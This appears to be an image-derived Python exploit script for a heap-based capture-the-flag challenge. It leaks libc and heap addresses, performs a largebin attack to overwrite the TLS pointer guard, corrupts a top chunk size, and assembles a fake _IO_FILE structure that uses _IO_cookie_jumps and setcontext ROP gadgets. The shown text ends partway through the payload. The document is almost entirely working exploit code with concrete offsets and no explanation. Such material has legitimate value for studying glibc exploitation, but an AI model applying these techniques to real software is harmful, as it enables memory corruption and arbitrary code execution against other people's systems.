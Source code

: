 ```python
add(3,0x418)

dele(2)
add(4, 0x430)
show(2)

libc_base = uu64()-0x1e0ff0 # main_arena + 1104
lg("libc_base")
guard = libc_base-0x002890# tls
lg("guard")

pop_rdi_addr = libc_base + 0x0000000000028a55
pop_rsi_addr = libc_base + 0x000000000002a4cf
pop_rax_addr = libc_base + 0x0000000000044c70
syscall_addr = libc_base + 0x000000000006105a
gadget_addr  = libc_base + 0x000000000014a0a0  # search mov rdx
# mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + libc.sym['setcontext']
IO_cookie_jumps = libc_base + 0x1e1a20# p/x &_IO_cookie_jumps
stderr = libc_base+libc.sym['stderr']
lg("setcontext_addr")
lg("stderr")

edit(2,"a"*0x10)
show(2)
p.recvuntil("a" * 0x10)
heap_base = u64(p.recv(6).ljust(8, '\x00'))-0xad0
lg("heap_base")
#-------------------------------pointer_guard attack-----------------
arena_large = libc_base + 0x1e0ff0
chunk0 = heap_base + 0x290
chunk2 = heap_base + 0xad0

dele(-4)
edit(2, p64(arena_large) * 2 + p64(chunk2) + p64(guard - 0x20))
add(5,0x430)
edit(2, p64(chunk0) + p64(arena_large) + p64(chunk0) * 2)# fd->chunk0 bk->largebin fd/bksize->chunk0
edit(-4, p64(arena_large) + p64(chunk2) * 3)# fd->largebin bk->chunk2 fd/bksize->chunk2
add(-4,0x418)
add(2,0x420)
#---------------------------topchunk_size attack-----------------------
dele(5)
add(6, 0x420)
edit(5,'a'*0x428+p64(0x300))

#------------------------------fake IO---------------------------------
next_chain = 0
fake_IO_FILE =  4*p64(0)
fake_IO_FILE += p64(0)                   # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)                   # _IO_buf_base
fake_IO_FILE += p64(0)                   # _IO_buf_end
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(next_chain)          # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heap_base)           # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(0)                   # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(IO_cookie_jumps+0x40)# vtable
fake_IO_FILE += p64(chunk2+0x10)       # rdi payload
```